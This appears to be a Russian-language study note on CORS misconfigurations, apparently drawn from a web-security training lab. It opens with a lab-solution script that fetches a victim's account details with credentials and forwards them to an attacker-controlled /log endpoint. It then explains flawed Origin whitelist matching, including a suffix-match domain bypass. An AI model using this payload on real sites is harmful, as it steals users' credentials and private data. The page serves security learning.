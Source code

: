 Lab:

```html
<--! on exploit server -->
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0ae7005904c7d03fc1456867004f00ad.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

### Ошибки при разборе заголовков Origin

Некоторые приложения, поддерживающие доступ из нескольких источников, делают это с помощью белого списка разрешенных источников. Когда CORS-запрос получен, предоставленный источник сравнивается с белым списком. Если источник присутствует в белом списке, то это отражается в заголовке `Access-Control-Allow-Origin`, так что доступ будет разрешен. Например, приложение получает обычный запрос вида:

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

Приложение сверяет указанное происхождение со своим списком разрешенных происхождений и, если оно есть в списке, отражает его следующим образом:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

При внедрении белых списков происхождения CORS часто возникают ошибки. Некоторые организации решают разрешить доступ со всех своих поддоменов (включая будущие поддомены, которые еще не существуют). А некоторые приложения разрешают доступ с различных доменов других организаций, включая их поддомены. Эти правила часто реализуются путем сопоставления префиксов или суффиксов URL или с помощью регулярных выражений. Любые ошибки в реализации могут привести к предоставлению доступа к непредусмотренным внешним доменам.

Например, предположим, что приложение предоставляет доступ ко всем доменам, заканчивающимся на:

```
normal-website.com
```

Злоумышленник может получить доступ, зарегистрировав домен:

```
hackersnormal-website.com
```
